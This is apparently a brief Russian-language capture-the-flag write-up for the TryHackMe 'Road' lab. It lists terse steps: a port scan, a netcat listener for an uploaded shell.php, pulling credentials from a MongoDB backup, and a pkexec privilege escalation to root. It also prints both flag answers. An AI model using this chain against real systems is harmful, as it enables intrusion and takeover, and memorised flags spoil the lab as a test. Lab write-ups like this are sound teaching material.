 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Road](https://tryhackme.com/r/room/road) 

Всего 1 заданиe:
## Задание 1
Как обычно, получите флаг пользователя и root.

### Ответьте на вопросы ниже
Что такое флаг user.txt?
```commandline
nmap -sSCV -p- <IP>
# shell.php
nc -lvnp 4444
find / -name "user.txt" 2>dev/null
cat /home/webdeveloper/user.txt
```
```commandline
63191e4ece37523c9fe6bb62a5364d45
```
Что такое флаг root.txt?
```commandline
getent passw
ss -tulnp
mongo
show dbs
use backup
show collections;
db.user.find();
su webdeveloper
sudo -l
find / -perm -u=s 2>/dev/null
echo $$
pkttyagent --process <PID>
pkexec "/bin/bash"
cat /root/root.txt
```
```commandline
3a62d897c40a815ecbe267df2f533ac6
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
